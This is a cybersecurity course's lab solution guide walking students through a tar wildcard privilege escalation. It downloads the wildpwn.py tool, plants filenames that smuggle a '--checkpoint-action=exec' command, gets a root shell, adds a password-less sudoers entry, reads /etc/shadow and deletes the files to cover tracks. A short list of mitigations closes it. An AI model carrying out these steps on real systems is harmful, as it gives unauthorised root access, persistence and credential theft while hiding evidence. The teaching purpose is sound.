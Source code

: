 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Archiving the directory with `tar` to run the exploit.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 

### Solutions

1. In your VM, switch to the user `jane`, and verify that you have no `sudo` privileges:

   - Run `su jane`. Use `password` as the password.

   - Run `sudo -l` to confirm that you do not have **super user** privileges.

2. Next, we'll look for automated `tar` backup files that can be exploited. 

  - As `jane`, run `cd ~/Documents`

  - Run `ls -l` to display the archive file, `jane_docs_backup.tar`.

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```


4. Use `wildpwn.py` to generate the malicious files by running:

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will display:

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```

    -  Run `ls -lat` to display our new payload files:

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```

5. After waiting 1-2 minutes, we can re-run `ls -lat` to display that the contents of the directory have changed!

    - Run `ls -lat` to display:

      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```

    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.

      - Run `cd .cache` to navigate _into_ the `.cache` directory

      - Run `ls -lat` to display the hidden `.cachefile` exploit file. 
        
        - `-l`: displays a long-list format of the files. 
        - `-a`: displays entries starting with a `.`.
        - `-t`: sorts by time modified, which we want due to the nature of this exploit.


6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:

   - Run `./.cachefile`  

    - You'll see your user prompt change from `jane:$` to `root:#`!


7. Add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges.s `root`:

   - As `root` run `visudo` and navigate to the following section of the file:

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.


8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
    - Run `su jane`  

    - Test your `sudo` permissions with:

        - `sudo -l`, and then

        - `sudo cat /etc/shadow` 

     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

    - Remove the `ExploitTar` directory entirely to cover your tracks.

        - Run `rm -r ~/Documents/ExploitTar`


9. Ways to prevent this attack in the future include:

   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.


If you would like to read more about wildcard attacks, check out  the following references:

   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)

--- 

© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.
